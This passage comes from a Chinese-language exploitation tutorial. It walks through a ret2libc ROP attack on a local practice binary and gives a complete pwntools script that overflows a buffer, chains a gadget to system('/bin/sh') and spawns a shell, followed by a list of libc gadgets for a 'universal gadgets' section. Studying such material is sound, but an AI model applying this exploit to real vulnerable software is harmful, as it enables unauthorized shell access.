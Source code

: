 &emsp;&emsp;此时system_addr被传入rax，bin_sh被传入rdi，最后调用call rax实现exploit，所以两条ROP都可以完成一次优雅的攻击，最终的exp如下：  

```python
from pwn import *

sh = process('./rop_libc')

libc = ELF('./libc.so')

vuln_addr = 0x000011db

system_addr_str = sh.recvuntil("\n")
system_addr = int(system_addr_str,16)
print "system_addr= " + hex(system_addr)

pop_pop_call_offset = 0x00000000000f982b - libc.symbols['system']
print "pop_offset= " + hex(pop_pop_call_offset)

bin_sh_offset = 0x0000000000181519 - libc.symbols['system'] # libc.search('/bin/sh').next()
print "bin_sh_offset= " + hex(bin_sh_offset)

pop_pop_call_addr = system_addr + pop_pop_call_offset
print "pop_addr= " + hex(pop_pop_call_addr)
#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

bin_sh = system_addr + bin_sh_offset
print "bin_sh= " + hex(bin_sh)

payload = 'a'*0x88 +  p64(pop_pop_call_addr) + p64(system_addr) + p64(bin_sh)
#payload = "a" * 0x80 + 'b' * '8' + p64(pop_ret_addr) + p64(bin_sh) + p64(system_addr)

sh.sendline(payload) 

sh.interactive()
```

![result](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/rop_libc.png?raw=true)  

#### 2.通用gadgets  

&emsp;&emsp;假如我们出现了更艰难的情况，我们需要传入更多的参数进去，比如write(),这时候要怎么办？我们查一下libc.so发现什么都没有，有点难受：  
```shell
0x0000000000106ab4 : pop r10 ; ret
0x0000000000024568 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000023a58 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000006f529 : pop r12 ; pop r13 ; pop r14 ; pop rbp ; ret
0x000000000002fc29 : pop r12 ; pop r13 ; pop r14 ; ret
0x00000000000396f5 : pop r12 ; pop r13 ; pop rbp ; ret
0x0000000000023f85 : pop r12 ; pop r13 ; ret
0x00000000000b5399 : pop r12 ; pop r14 ; ret
0x00000000000c513d : pop r12 ; pop rbp ; ret
0x0000000000024209 : pop r12 ; ret
0x000000000002456a : pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000023a5a : pop r13 ; pop r14 ; pop r15 ; ret
0x000000000006f52b : pop r13 ; pop r14 ; pop rbp ; ret
0x000000000002fc2b : pop r13 ; pop r14 ; ret
0x00000000000396f7 : pop r13 ; pop rbp ; ret
0x0000000000023f87 : pop r13 ; ret
```
